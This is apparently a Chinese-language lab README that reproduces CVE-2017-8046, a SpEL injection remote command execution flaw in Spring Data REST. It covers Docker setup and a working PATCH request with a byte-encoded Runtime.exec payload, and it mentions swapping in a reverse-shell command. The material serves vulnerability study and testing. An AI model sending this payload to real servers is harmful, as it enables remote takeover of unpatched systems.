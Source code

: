 # Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

参考链接：

- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/
- https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html

## 环境搭建

执行如下命令启动漏洞环境：

```
docker-compose up -d
```

等待环境启动完成，然后访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

## 漏洞复现

访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker-compose exec spring bash`看看：

![](1.png)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：

![](2.png)
